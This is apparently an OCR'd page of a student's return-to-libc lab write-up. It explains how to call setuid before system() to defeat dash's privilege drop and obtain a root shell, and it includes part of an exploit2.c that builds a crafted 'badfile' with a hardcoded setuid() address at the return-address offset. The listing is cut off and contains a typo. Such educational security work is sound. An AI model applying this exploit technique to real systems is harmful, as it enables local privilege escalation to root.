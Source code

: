 \documentclass[14pt]{extarticle}
\begin{document}
Since my /bin/sh program currently points to the /bin/dash shell, won't be able to execute the shell program with the userid of root without calling the setuid system command. Luckily this command is a system command, so I can call it just as I did the system and exit commands. I created a copy of the exploit.c program and named it exploit2.c. This program will hold my changes to call the setuid program before the system command.
\begin{lstlisting}[language=c]
/* exploit2.c */

// These are the standard libraries that are needed to open the badfile for writing.
// They also allow the use fo the getenv command which is used to get the location of the environment variable
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// main is the only function I'll need, everything can be made within it.
int main(int argc, char *argv[]){
/* since retlib has a shorter file name than exploit, we can add 2 to the location of the variable by default */
long environment_adjust = 2; // adjust environment variable location
int arr_size = 12;  //size of target buffer (should be raised to multiple of 4)

// determine the location of the return address of the bof function
int ret_addr = arr_size +12; // array size + padding to reach return location

//----------------------------------------------------------------
// Done with Variables
//----------------------------------------------------------------

// see if a parameter was passed into the program
if(argc > 1){
	// use parameter to adjust environment variable location on the fly
	environment_adjust = atol(argv[1]);
}
// size of local buffer
int buf_size = 40;
char buf[buf_size];

// open a connection to the badefile for writing
FILE *badfile;
Badfile = fopen("./badfile", "w");

/* clear the buffer to make it easier to read in hexdump */
memset(&buf, 0x00, buf_size); //optional

/* get location of environment variable MYSHELL */
char* shell = (char *)getenv("MYSHELL");
if(shell){
	// if it's found, output the location
	//printf("%x\n", (unsigned int)shell);
}else{
	// if it's not set, throw an error and exit.
	printf("No $MYSHELL environment variable set\n");
	exit(1);
}

	// In this version of the exploit, the setuid system command will need to be called before the system call
	// This will set the user id before executing the shell, effectively bypassing the mitigation set in dash
	*(long *) &buf[ret_addr] = 0xb7eb9170 ; //setuid()


\end{lstlisting}
\end{document}
